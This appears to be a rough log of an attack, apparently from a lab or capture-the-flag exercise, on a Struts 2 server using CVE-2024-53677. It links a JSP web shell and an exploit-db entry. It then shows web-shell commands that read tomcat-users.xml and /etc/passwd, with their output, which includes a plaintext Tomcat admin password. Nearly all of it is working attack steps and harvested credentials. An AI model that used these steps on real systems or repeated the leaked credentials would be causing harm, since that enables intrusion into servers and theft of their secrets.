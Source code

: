 /*we can now upload an image in the wepage
upon uploading the imaage we get the link but not really much help haha 
      (I had to debug to upload the image as well haha.)*/
___________________________________________________________________________________________________________________________________________________________

https://raw.githubusercontent.com/TAM-K592/CVE-2024-53677-S2-067/refs/heads/ALOK/shell.jsp
> After that i exploited and got a web cmd shell using the struts 2 exploit and   the server broke a couple of times lol
We find find the exploit in:
https://raw.githubusercontent.com/TAM-K592/CVE-2024-53677-S2-067/refs/heads/ALOK/shell.jsp
https://www.exploit-db.com/exploits/44583
___________________________________________________________________________________________________________________________________________________________
"Enumeration"
### FROM ###
cmd=cat+conf/tomcat-users.xml
### GOT ###
//response
 <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
___________________________________________________________________________________________________________________________________________________________
### FROM ###
cmd=cat+/etc/passwd
### GOT ###
Command: cat /etc/passwd<BR>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
